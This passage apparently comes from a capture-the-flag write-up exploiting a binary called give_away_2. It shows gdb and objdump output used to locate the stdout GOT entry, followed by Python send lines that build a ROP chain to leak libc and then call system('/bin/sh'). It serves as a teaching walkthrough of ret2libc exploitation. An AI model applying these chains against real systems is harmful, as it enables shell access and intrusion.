 ```
0x555555754fb0:	0x00000000
(gdb)
0x555555754fb4:	0x00000000
(gdb)
....
0x555555755020 <stdout@@GLIBC_2.2.5>:	0xf7fad6a0
(gdb)
0x555555755024 <stdout@@GLIBC_2.2.5+4>:	0x00007fff
(gdb)
0x555555755028:	0x00000000
(gdb)
0x55555575502c:	0x00000000
(gdb)
0x555555755030 <stdin@@GLIBC_2.2.5>:	0xf7fac980
(gdb)
0x555555755034 <stdin@@GLIBC_2.2.5+4>:	0x00007fff
(gdb)
0x555555755038:	0x00000000
```

So we found stdout@@GLIBC. That can work.

We can use the address of main to offset to that
```
objdump -t give_away_2 | grep stdout
0000000000201020 g     O .bss	0000000000000008              stdout@@GLIBC_2.2.5
objdump -t give_away_2 | grep main
0000000000000000       F *UND*	0000000000000000              __libc_start_main@@GLIBC_2.2.5
0000000000000864 g     F .text	0000000000000037              main
```

0x201020 - 0x864 = 2099132

Now we have everything - the pop rdi gadget, the GOT entry address and the printf function call in main. We can cause the leak:
```py
s.send("A" * offset + poprdi + stdoutgot + mainprintf + "\n")
```

After the leak, it's just a matter of figuring out offsets to libc's other places (system, "/bin/sh"..) We can figure that out just by looking at the libc file and finding offsets between the symbols.

according to this article https://tasteofsecurity.com/security/ret2libc-unknown-libc/, ret 2 system looks like this on 64 bit:
```py
rop2 = base + p64(RET) + p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)
```
He's using pwntools here, which is nice. I was not use to pwntools yet so I just used a similar structure with regular sockets:

```py
s.send("A"*offset + ret + poprdi + binsh + system + "\n")
```

Also, debugging on a replicated environment really helped. I noticed from the previous challenge that it was using 18.04, so I setup a VM and debugged with that exact version of the system (even the libc md5 hash matches up!)
